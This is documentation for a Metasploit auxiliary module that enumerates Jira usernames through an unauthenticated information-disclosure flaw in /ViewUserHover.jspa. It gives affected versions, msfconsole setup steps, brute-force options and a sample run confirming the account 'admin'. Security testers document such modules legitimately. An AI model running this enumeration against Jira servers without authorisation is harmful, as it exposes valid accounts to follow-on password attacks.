 ## Vulnerable Application

  [Jira](https://www.atlassian.com/software/jira) Jira is team managment software for agile teams.

  This module has been tested successfully on:

   * Jira version 8.4.1 on Ubuntu Linux.
   * Jira version 8.4.1 on Kali Linux.

  Installers:

  * [Jira Installers](https://www.atlassian.com/software/jira/core/updateatlassian-jira-software-8.4.1.tar.gz)
  * [Jira Installers Archive] (https://www.atlassian.com/software/jira/download-archives)

### Description

  The module exploits an information disclosure vulnerability to allow an unauthenticated user to enumerate /ViewUserHover.jspa endpoint.
  This only affects Jira versions < 7.13.16, 8.0.0 ≤ version < 8.5.7, 8.6.0 ≤ version < 8.12.0
  Discovered by Mikhail Klyuchnikov @__mn1__
  https://twitter.com/ptswarm/status/1318914772918767619

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/scanner/http/jira_user_enum`
  3. Do: `set rhosts [IP]`
  4. Do: `set SSL true`
  5. Do: `set RPORT 443`
  6. Do: `set USERNAME <username to test>
  7. Do: `run`
  8. You should find out if the user exists or not


## Options

- BRUTEFORCE_SPEED - How fast to bruteforce, from 0 to 5
- RHOSTS - The Target host(s)
- RPORT - Remote port hosting the Jira Application
- TAREGETURI - Path to Jira install on the webserver=
- USERNAME - single username to attempt to enumerate
- USER_FILE - File of usernames to attempt to enumerate


## Scenarios

```
  msf6 > use auxiliary/scanner/http/jira_enum_users 
  msf6 auxiliary(scanner/http/jira_enum_users) > set rhosts 192.168.0.101
  rhosts => 192.168.0.101
  msf6 auxiliary(scanner/http/jira_enum_users) > set USERNAME admin
  msf6 auxiliary(scanner/http/jira_enum_users) > run

  [*] Begin enumerating users at 192.168.0.101/secure/ViewUserHover.jspa?username=
  [*] checking user admin
  [+] 'User exists: admin'
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf6 auxiliary(scanner/http/jira_enum_users) > creds
  Credentials
  ===========

  host           origin         service         public   private  realm  private_type  JtR Format
  ----           ------         -------         ------   -------  -----  ------------  ----------
  192.168.0.101  192.168.0.101  443/tcp (jira)  admin                                

```
